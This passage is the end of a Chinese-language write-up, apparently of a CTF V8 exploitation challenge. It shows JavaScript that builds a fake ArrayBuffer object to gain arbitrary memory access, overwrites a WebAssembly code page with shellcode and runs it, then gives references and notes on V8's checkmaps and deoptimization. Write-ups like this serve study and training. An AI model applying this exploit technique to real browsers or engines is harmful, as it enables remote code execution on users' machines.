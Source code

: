 ```
faker[9] = faker[8];
faker[10] = p64f(0x100,0)
faker[11] = p64f(0x4,0);

var arb_ArrayBuffer = fakeObject(faker_addr_h,element_addr_l+0x20);

var adv = new DataView(arb_ArrayBuffer);

d = adv.getFloat64(0,true);
var wasm_shellcode_addr_h = u64_h(d);
var wasm_shellcode_addr_l = u64_l(d) + 0x5f;

print('wasm_shellcode_addr=' + wasm_shellcode_addr_h.toString(16) + wasm_shellcode_addr_l.toString(16));
faker[8] = p64f(wasm_shellcode_addr_l,wasm_shellcode_addr_h);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();
```



## 0x04 参考

[从一道CTF题零基础学V8漏洞利用](https://www.freebuf.com/vuls/203721.html)<br>[redundancy elimination reducer in v8 and 34c3 ctf v9](https://www.dazhuanlan.com/2020/05/25/5ecbaa7260f9f/)



## 0x05 感想

在v8的JIT代码生成过程中，会使用IR来分析程序并且进行优化，v8的IR图使用`sea of node`思想，其中`checkmaps`节点是用来做`deoptimization`的依据，`checkmaps`节点用于检查对象类型是否符合，如果符合，则直接执行接下来的JIT代码，否则会使用`deoptimization`，以确保类型正确。

